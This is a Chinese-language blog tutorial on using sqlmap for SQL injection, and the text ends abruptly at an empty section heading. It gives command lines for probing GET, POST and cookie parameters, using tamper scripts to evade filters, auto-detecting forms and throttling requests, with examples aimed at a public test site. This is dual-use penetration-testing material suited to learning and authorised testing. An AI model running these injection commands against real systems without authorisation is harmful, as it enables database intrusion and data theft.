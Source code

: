 ```yaml
---
title: sqlmap使用手册
date: 2020-11-23 19:40:29
updated: 2020-11-23 19:40:29
categories: share
---
```




一直没有找到关于sqlmap注入非常详细的知识点总结，最近在乌云里面发现一篇很好的文章关于sqlmap使用的方法

就搬运过来了，再加上一些其它文章的内容，总结而得到的本文。



# 寻找注入点

**GET方式**

```
sqlmap -u "url" //这个URL必须含？
```

**POST方式**

```
sqlmap -u http://testasp.vulnweb.com/Login.asp --data "tfUName=1&tfUPass=1"
```

**cookie注入**

```
sqlmap -u "url" --cookie "chsadj" --level 2 //这里的URL去掉？及其后的内容，并将它们放在cookie的内容里面
```

**tamper方式**

```
sqlmap -u "url" -v 3 --batch --tamper "sac.py"  //temper后面的插件可以去sql安装目录查找
```

**自动检测表**

```
sqlmap -u http://testasp.vulnweb.com/Login.asp --forms
```

**延时两秒**

```
Sqlmap –u “url” --delay 2
```

**频率3次**

```
Sqlmap –u “url” --safe-freq 3
```

**伪静态**
